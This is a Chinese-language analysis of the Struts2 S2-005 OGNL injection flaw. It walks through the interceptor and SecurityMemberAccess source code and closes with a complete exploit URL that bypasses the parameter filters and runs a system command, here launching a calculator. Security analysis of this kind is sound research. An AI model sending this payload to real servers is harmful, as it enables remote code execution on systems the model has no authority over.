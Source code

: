 # s2-005漏洞分析

## 影响版本

Struts 2.0.0 - Struts 2.1.8.1

## 分析

在struts2-core 2.0.12更新以后在， `ParametersInterceptor#setParameters` 方法当中，这里不再使用原有的 `ValueStack`，而是通过`ValueStackFactory` 为当前值栈重新初始化 `ValueStack`

![](img/1.png)

同时设置了 `acceptParams` 和 `excludeParams` 

```java
boolean memberAccessStack = newStack instanceof MemberAccessValueStack;
if (memberAccessStack) {
  MemberAccessValueStack accessValueStack = (MemberAccessValueStack)newStack;
  accessValueStack.setAcceptProperties(this.acceptParams);
  accessValueStack.setExcludeProperties(this.excludeParams);
}
```

![](img/2.png)

这里还有个比较关键的地方在调用`createValueStack`的时候里面setRoot方法,，会创建 `SecurityMemberAccess` 对象,在哪里呢，在这里被保存到了上下文当中

![](img/3.png)

相关调用栈

```java
setMemberAccess:185, OgnlContext (ognl)
addDefaultContext:243, Ognl (ognl)
createDefaultContext:172, Ognl (ognl)
setRoot:361, OgnlValueStack (com.opensymphony.xwork2.util)
<init>:104, OgnlValueStack (com.opensymphony.xwork2.util)
createValueStack:19, OgnlValueStackFactory (com.opensymphony.xwork2.util)
setParameters:199, ParametersInterceptor (com.opensymphony.xwork2.interceptor)
doIntercept:176, ParametersInterceptor (com.opensymphony.xwork2.interceptor)
```

最终在这里设置了`memberAccess`

![](img/4.png)

那如何获得呢

![](img/5.png)

首先还是按照原来的payload打一通



通过`com.opensymphony.xwork2.util.SecurityMemberAccess#isAccessible`检查权限，这里面调用了`this.getAllowStaticMethodAccess()`

，在经过一系列的调用之后最终会到`com.opensymphony.xwork2.util.SecurityMemberAccess#isAcceptableProperty`

```java
    protected boolean isAcceptableProperty(String name) {
        return this.isAccepted(name) && !this.isExcluded(name);
    }
```

但是在`isExcluded`会触发报错，原因是`paramName`参数为空

```java
    protected boolean isExcluded(String paramName) {
        if (!this.excludeProperties.isEmpty()) {
            Iterator i$ = this.excludeProperties.iterator();

            while(i$.hasNext()) {
                Pattern pattern = (Pattern)i$.next();
                Matcher matcher = pattern.matcher(paramName);
                if (matcher.matches()) {
                    return true;
                }
            }
        }

        return false;
    }
```

解决方法是通过`Ognl`表达式把`excludeProperties`设置为空即可绕过判断，现在就来解决这个问题，我们上面提到了`_memberAccess`可以获得这个`SecurityMemberAccess`对象，因此不难想到如下的设置即可

```java
#_memberAccess.acceptProperties=@java.util.Collections@EMPTY_SET
```

那么新的payload也来了，整个过程也还算顺利

```
http://127.0.0.1:8080/login.action?(%27\u0023_memberAccess.acceptProperties\u003d@java.util.Collections@EMPTY_SET%27)(abc)(def)&(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(abc)(def)&(%27\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET%27)(abc)(def)&('\u0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'open%5Cu0020-a%5Cu0020Calculator.app')('y4tacker')
```

